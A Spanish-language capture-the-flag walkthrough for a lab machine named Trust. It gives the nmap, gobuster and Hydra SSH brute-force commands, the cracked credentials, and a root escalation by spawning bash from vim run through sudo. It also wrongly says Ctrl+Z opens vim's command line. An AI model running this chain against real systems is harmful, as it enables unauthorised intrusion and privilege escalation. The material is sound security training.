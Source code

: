 #### INFORMACION DE LA MAQUINA.
#### Maquina Trust.
[LINK DE LA MAQUINA](https://mega.nz/file/UacxFKDR#G5KBHBt8ASB0lHPuttnaxKROAa40FMGrvBoIBf6ak0E)
#### Dificultad: Muy facil.

---

Enviamos un ping de un paquete para comprobar que la maquina esta activa y lista.
```Linux
Ping -c 1 172.17.0.2
```
![Captura de pantalla 2024-05-29 001656](https://github.com/sav404/Hacked-Machines/assets/169759579/e0daf810-4ccc-4a61-884b-46a39631509c)

Si entramos a la ip en el navegador podemos ver que en el puerto 80 hay un servidor apache2 configurado, el cual tiene la pagina por defecto que te entregan al activar el servidor.

---

Comenzamos el proceso con el reconocimiento del objetivo mediante el uso de la herramienta Nmap. Realizaremos un escaneo exhaustivo de todos los puertos disponibles, utilizando un escaneo de tipo SYN, junto con un conjunto de scripts que maximizarán la capacidad de reconocimiento, así como otro que nos proporcionará información sobre la versión de los servicios. Este escaneo se realizará enviando paquetes a una velocidad mínima de 5000 por segundo, sin realizar resolución DNS, y con un nivel de vervose triple en la salida para que los puertos abiertos se notifiquen progresivamente a medida que avanza el escaneo. Además, se incluirá un ping para verificar la conectividad previa.
```Linux
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

El escaneo detecto que la maquina tiene el puerto 22 protocolo SSH y puerto 80 protocolo HTTP abiertos.
Resultado de el escaneo:
```Linux
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
```

---

Vamos a hacer fuerza bruta a la url de la pagina para poder encontrar directorios ocultos utilizando la herramienta GoBuster y una lista common de palabras. añadimos que busque extensionés html y php, para encontrar mas directorios posibles en el servidor web.
```Linux
gobuster dir -u http://172.17.0.2 -w usr/share/wordlists/dirb/common.txt html,php
```

Resultado de fuerza bruta:
``` Linux
/index.html           Status: 200
/secret.php           Status: 200
```

Accedémos a secret.php y encontramos una pagina la cual dice que no puede ser hackeada.

![Captura de pantalla 2024-05-29 005453](https://github.com/sav404/Hacked-Machines/assets/169759579/49517ba4-d3b3-42d5-8bab-2aa524dde070)

---

Vamos a intentar un ataque de fuerza bruta al puerto 22 SSH, ya que vimos que está abierto. Usaremos Hydra, especificando `-l` para el nombre de usuario, que sabemos que es "Mario", y `-P` para la contraseña, usando el diccionario de contraseñas RockYou y 64 hilos de velocidad.
```Linux
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64

```
Resultado de la fuerza bruta.

![Captura de pantalla 2024-05-29 011225](https://github.com/sav404/Hacked-Machines/assets/169759579/d8a08fc8-caf0-4d21-9d14-6751d3d51d2f)


Credenciales obtenidas ya tenemos acceso a el usuario mario el cual su contraseña es: chocolate.

---

A continuación nos conectamos con el comando ssh y pasandole el nombre de usuario arrobado con la ip de la maquina victima u objetivo.
```Linux
ssh mario@172.17.0.2
```

Nos saldra este aviso para que veamos si estamos intentando conectarnos al servidor correcto y no nos hayamos equivocado para entrar a uno malicioso, sale siempre al conectarse mediante ssh a una maquina por primera vez, puedes poner que yes y listo.

![Captura de pantalla 2024-05-29 011029](https://github.com/sav404/Hacked-Machines/assets/169759579/7df6cad3-cb5e-4d81-a6a9-40db20697026)

A continuacion nos pide la contraseña la cual como ya sabemos es **Chocolate**

![Captura de pantalla 2024-05-29 011029](https://github.com/sav404/Hacked-Machines/assets/169759579/af1ccc43-65c7-4913-a446-8530e23aee6d)

---
Con el siguiente comando una vez dentro del usuario mario vamos a ejecutar como root el ide: vim.
```Linux
sudo -u root /usr/bin/vim
```

Ahora dentro del mismo vim presionamos control + z , lo cual nos abrira una pequeña seccion en la parte de abajo de todo, donde con doble punto :q podemos salir o escribri con :w etc, lo que mucha gente no sabe es que por ahi tambien podemos abusar para ejecutar comandos como por ejemplo abrirnos una bash que es lo que haremos a continuacion.
```Vim
:!/bin/bash
```
![Captura de pantalla 2024-05-29 011927](https://github.com/sav404/Hacked-Machines/assets/169759579/2b2546c1-f2fe-4ab0-8a14-880d43c0175a)

Gracias a eso, escalamos privilegios y obtuvimos el usuario con mayores privilegios root.

![Captura de pantalla 2024-05-29 012304](https://github.com/sav404/Hacked-Machines/assets/169759579/c46bedb5-a9da-4fea-a523-07c2889e9766)

---
